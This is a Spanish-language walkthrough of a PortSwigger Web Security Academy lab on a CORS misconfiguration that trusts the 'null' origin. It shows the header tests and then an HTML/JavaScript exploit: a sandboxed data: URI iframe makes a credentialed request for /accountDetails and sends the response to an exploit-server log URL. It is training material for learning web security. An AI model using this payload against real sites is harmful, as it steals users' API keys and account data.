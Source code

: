 # Lab: CORS vulnerability with trusted null origin

This website has an insecure CORS configuration in that it trusts the "null" origin.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

![Practitioner](https://img.shields.io/badge/level-Apprentice-green) 

---

Iniciamos el laboratorio y nos encontramos con una aplicación de compras online:
![image](https://github.com/user-attachments/assets/91903113-dba9-47f7-946f-b978688cbf98)

Sabemos que el laboratorio tiene una configuración CORS insegura que confía en origin null, tenemos que crear un script que nos devuelva la API key del administrador, por lo que tenemos que encontrar un endpoint que nos devuelva nuestra API key.

Procedemos a autenticarnos con nuestras credenciales `wiener:peter`:
![image](https://github.com/user-attachments/assets/f627e5ec-a806-4a02-b465-9dad19c47a77)

Dashboard del usuario:
![image](https://github.com/user-attachments/assets/36df1afa-6c74-4564-9b8e-53d8dbcecfd7)

Endpoint `/accountDetails`:
![image](https://github.com/user-attachments/assets/b2f8f53b-f33b-4c18-a1a2-ccd00dc6370a)

Hasta ahora este laboratorio es muy similar al anterior, este último endpoint nos devuelve un montón de información sensible relativa al usuario, incluyendo su API key.

El servidor nos devuelve la cabecera `Access-Control-Allow-Credentials: true`, por lo que sabemos que está haciendo uso del protocolo `CORS`. Enviamos esta petición al `Repeater`:
![image](https://github.com/user-attachments/assets/dad8d53b-62f8-4f7e-993a-4ab78cd18049)


Por lo que procedemos a testear la configuración del protocolo para validar si hay vulnerabilidad.

Inyectamos el header `Origin` para validar si el servidor acepta orígenes arbitrarios:
![image](https://github.com/user-attachments/assets/2efabe9f-16d0-40e6-ae12-e94228aed593)

No nos refleja el header por lo que en este laboratorio el servidor no acepta orígenes arbitrarios.

Procedemos a testear si el servidor acepta la cabecera con el valor `Origin: null`:
![image](https://github.com/user-attachments/assets/7b84f93f-c845-49ac-b50f-2c6813ce560f)

Recibimos la cabecera `Access-Control-Allow-Origin: null` como respuesta del servidor.

El servidor está confiando en orígenes arbitrarios, lo cual permite a un atacante robar datos sensibles desde un origen sin dominio definido.

Este es el caso ideal para explotar usando el `iframe` con `data: URI` que analizamos antes en la teoría:
```html
<iframe sandbox="allow-scripts allow-forms" src="data:text/html,
  <script>
    var req = new XMLHttpRequest();
    req.onload = function() {
      location = 'https://exploit-server.net/log?data=' + this.responseText;
    };
    req.open('GET', 'https://0a6a006a03a0841c8bd04089600ad0088.web-security-academy.net/accountDetails', true);
    req.withCredentials = true;
    req.send();
  </script>">
</iframe>
```

Simulamos levantar el servidor con nuestra página maliciosa haciendo click en `Go te exploit server` y pegando nuestro script en el campo `Body`. Luego hacemos click en `Deliver exploit to victim` para simular que la víctima accede a nuestro servidor y su navegador ejecuta el script:
![image](https://github.com/user-attachments/assets/ba5af9e8-7fd3-40fb-92b3-7536bb0425b7)



